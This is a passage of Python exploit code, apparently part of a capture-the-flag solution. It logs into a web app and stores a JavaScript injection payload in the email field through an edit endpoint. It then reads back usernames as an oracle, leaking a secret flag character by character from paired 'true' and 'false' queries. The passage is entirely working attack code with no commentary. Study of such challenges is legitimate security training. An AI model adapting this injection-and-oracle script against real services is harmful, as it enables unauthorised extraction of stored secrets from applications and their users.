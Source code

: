 ``` py

    return this.username == "account_oracle_" +  (this.flag.charCodeAt(INDEX) - 27) % 10
  }
  """.replace("\n", "").replace('INDEX', str(index))

  payload = 'anything@anything.com" || (() => {JS})() || "'.replace('JS', js_code)

  session = requests.session()

  if len(stored_session) > 0:
    data = stored_session.pop()
    session = data["session"]
    name = data["name"]
  else:
    name = "account_get_" + str(index)

    session.post(LOGIN_URL, data={
      "username": name,
      "password": name
    })
    req_count += 1

  session.post(EDIT_URL, data={
    "email": payload.replace("CONDITION", "false")
  })

  resp = requests.get(QUERY_URL + name)
  req_count+=2

  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)
    return '#'

  if resp.text == 'null':
    print('Failed')
    return '#'

  data = json.loads(resp.text)
  b = data["username"].replace('account_oracle_', '')

  session.post(EDIT_URL, data={
    "email": payload.replace("CONDITION", "true")
  })
  resp = requests.get(QUERY_URL + name)
  req_count+=2

  if resp.status_code != 200:
    print(resp.status_code)
    print(resp.text)
    return '#'

  if resp.text == 'null':
    print('Failed')
    return '#'

  data = json.loads(resp.text)
  a = data["username"].replace('account_oracle_', '')
  a = int(a)
  b = int(b)

  return chr(10*a + b + 27)

```
